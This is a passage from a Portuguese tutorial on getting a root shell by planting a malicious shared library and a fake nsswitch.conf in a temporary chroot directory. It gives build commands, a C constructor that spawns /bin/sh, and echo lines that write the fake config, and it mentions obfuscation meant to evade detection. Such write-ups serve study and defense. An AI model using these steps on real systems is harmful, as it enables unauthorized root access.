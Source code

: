 ```go
	
}

func main() {}

```

Precisaremos também compilar (e mover) a nossa lib maliciosa:

```bash
go build -o woot.so -buildmode=c-shared main.go
mv woot.so /tmp/woot/lib/woot.so

```

Nesse exemplo temos ofuscação simples (para não levar flag por uma string `"/bin/bash"`).
Como prometi, a segui um exemplo em C (gerado por IA):

```C
#include <stdio.h>
#include <stdlib.h>

// A função __attribute__((constructor)) garante que 'init'
// seja executada automaticamente quando a biblioteca for carregada.
void __attribute__((constructor)) init()
{
    // Executa um shell /bin/sh com os privilégios do processo pai.
    // Se o processo pai for root (como o sudo comprometido),
    // você ganha um shell de root.
    system("/bin/sh");

}

```

E para compilar:

```bash
gcc -shared -fPIC -o woot.so woot.c
mv woot.so /tmp/woot/lib/woot.so

```

### 3. ***Criaremos o nsswitch.conf falso*:**

Precisamos falar para o sistema que ele deve rodar nossa lib maliciosa, mas como fazemos isso??
Simples, basta manipular o nsswitch, no nosso caso vamos criar um falso no nosso ambiente temporário.

Basta que rodemos:

```bash
echo "hosts: files nis [NOTFOUND=return] dns" > /tmp/woot/etc/nsswitch.conf
echo "passwd files /lib/woot" >> /tmp/woot/etc/nsswitch.conf

```
